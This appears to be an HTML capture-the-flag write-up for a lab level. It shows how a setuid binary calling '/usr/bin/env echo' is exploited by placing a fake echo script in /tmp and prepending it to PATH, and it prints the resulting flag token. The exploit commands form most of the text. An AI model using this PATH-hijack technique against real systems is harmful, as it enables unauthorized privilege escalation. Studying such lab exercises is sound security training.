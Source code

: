 <!DOCTYPE html>
<html>
<body>
<h1>Level03</h1>
<ul>
	<li>We spawn with a <code>level03</code> file in root repository</li>
	<li>No extension so I try to execute it and it prints &#39;Exploit me&#39;</li>
	<li>Then I try to <em>cat</em> the file but its unreadable</li>
	<li>Using &#39;file&#39;
		<blockquote>
		<p><code>level03: setuid setgid ELF 32-bit LSB executable</code></p>
		</blockquote>
	</li>
	<li>I still wanted to get a good look at the file so I used:
	<blockquote>
		<p>
		<code>objdump -M Intel -d level03</code>
		<p><em>The -M Intel to get a more readable asm for me</em></p>
		</p>
	</blockquote>
	</li>
	<li>Code was still kinda bad so I did a little script to make it cleaner
		<blockquote>
		<p><code>sh cutlines.sh</code></p>
		</blockquote>
	</li>
	<li>We can see many calls but one of them is a system one</li>
	<li>So when we look into it on <code>gdb</code><blockquote>
	<p><code>0x80485e0:       &quot;/usr/bin/env echo Exploit me&quot;</code></p>
	</blockquote>
	</li>
	<li>It seems like <code>echo</code> is vulnerable to manipulation since it&#39;s called using <code>/usr/bin/env</code> which makes the computer use the first binary found in <code>PATH</code></li>
	<li>So we should be able to create a script called echo to get the flag for us !
	<blockquote>
		<p><code>echo &#39;getflag&#39; &gt; /tmp/echo</code></p>
		<p><code>export PATH=/tmp:$PATH</code></p>
		<p><code>./level03</code></p>
	</blockquote>
	</li>
	<li>DOESN&#39;T WORK ! WHY ? (Well I forgot a little something)
		<blockquote>
			</p><code>chmod +x /tmp/echo</code></p>
			</p><code>./level03</code></p>
			</p><code>Check flag.Here is your token : qi0maab88jeaj46qoumi7maus</code></p>
		</blockquote>
	</li>
</ul>
<body>
<html>